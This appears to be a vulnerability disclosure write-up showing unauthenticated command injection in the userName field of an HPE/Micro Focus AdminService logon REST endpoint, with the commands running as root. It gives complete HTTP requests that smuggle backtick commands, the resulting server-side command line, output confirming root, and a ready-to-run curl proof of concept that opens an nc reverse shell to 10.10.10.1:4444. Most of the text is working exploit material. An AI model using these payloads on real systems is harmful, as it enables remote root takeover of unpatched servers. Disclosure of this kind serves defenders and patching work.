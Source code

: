 ```
POST /AdminService/urest/v1/LogonResource HTTP/1.1
Host: mfobr.nat:21412
Content-Type: application/json
Content-Length: 69

{"userName":"something `whoami > /tmp/hehe`","credential":"whatever"}
```

The server will respond with *AUTHENTICATION_FAILED*:
```
HTTP/1.1 401 Unauthorized
Content-Type: application/json
Content-Length: 353
Date: Sun, 19 Apr 2020 20:36:57 GMT
Connection: close
Server: SHR

{
  "status" : 401,
  "code" : 401,
  "message" : "An error occurred. Please contact your system administrator",
  "developerMessage" : "An error occurred. Please contact your system administrator",
  "args" : "An error occurred. Please contact your system administrator",
  "moreInfo" : "mailto:support@hpe.com",
  "appCode" : "AUTHENTICATION_FAILED"
}
```

However our command will execute as:

```
BOAdapter -login -username something `whoami > /tmp/hehe` -password DF30F1CC12E738D97AB6CD32355CA1B1Z77092800A001308ACDF099CA2E6DAE2B -cms mfobr.nat -authType secEnterprise
```

With the result:

```
obruser@mfobr ~]$ cat /tmp/hehe
root
```

A proof of concept that spawns a reverse shell is trivial, we can even user *curl* command:

```
curl -i -s -k -X $'POST' \
    -H $'Host: mfobr.nat:21412' -H $'Content-Type: application/json' -H $'Content-Length: 76' \
    --data-binary $'{\"userName\":\"owned `nc -e /bin/bash 10.10.10.1 4444`\",\"credential\":\"whatever\"}' \
    $'https://10.10.10.123:21412/AdminService/urest/v1/LogonResource'
```

This will spawn a reverse shell running as root that will connect to 10.10.10.1:4444. 
You can view the attack in full glory in this asciinema cast:
[![asciicast](https://asciinema.org/a/395851.svg)](https://asciinema.org/a/395851)
